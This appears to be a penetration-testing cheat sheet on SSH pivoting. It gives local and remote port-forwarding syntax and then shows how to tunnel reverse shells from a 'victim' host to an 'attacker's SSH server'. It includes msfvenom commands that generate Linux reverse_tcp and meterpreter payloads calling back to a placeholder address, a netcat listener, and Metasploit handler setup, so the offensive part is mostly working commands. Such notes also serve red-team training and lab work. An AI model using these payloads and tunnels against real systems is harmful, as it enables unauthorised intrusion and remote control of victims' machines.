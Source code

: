 # SSH

## 01 - Unix Shell

### 1.1 - Local Port Forwarding

#### 1.1.1 - Usage

```
$ cat /etc/ssh/sshd_config
..[snip]..
AllowTcpForwarding yes
..[snip]..
```

**Syntax:**

`$ ssh -NTfCq -L <bind_address>:<local_port>:<remote_ip>:<bind_port> <username>@<IP>`

#### 1.1.2 - Scenarios

##### 1.1.2.1 - Reverse Shell Callback Tunnel

TODO: Make a network topology diagram to illustrate the pivoting scenario

### 1.2 - Remote Port Forwarding

#### 1.2.1 - Usage

```
$ cat /etc/ssh/sshd_config
..[snip]..
GatewayPorts yes
..[snip]..
```

- Victim port forwarding to the attacker's SSH server

`$ ssh -NTfCq -R <bind_address>:<local_port>:<remote_ip>:<bind_port> <username>@<attacker_IP>`

- Remote Port forwarding reverse shells SSH C2 Server as a WAN

`$ ssh -NTfCq -R <local_port>:127.0.0.1:<bind_port> <username>@<IP>`

- Generate a reverse callback shell and start a shell handler via `netcat`

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<SSH_IP> lport=<local_port> -f elf -o shell.elf

$ nc -lnvp <bind_port>
```

- Generate a reverse callback shell and start a shell handler via `metasploit`

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<SSH_IP> lport=<local_port> -f elf -o shell.elf

msf > use payload/linux/x86/meterpreter/reverse_tcp

msf payload(linux/x86/meterpreter/reverse_tcp) > set lhost <SSH_IP>

msf payload(linux/x86/meterpreter/reverse_tcp) > set lport <bind_port>

msf payload(linux/x86/meterpreter/reverse_tcp) > to_handler
```
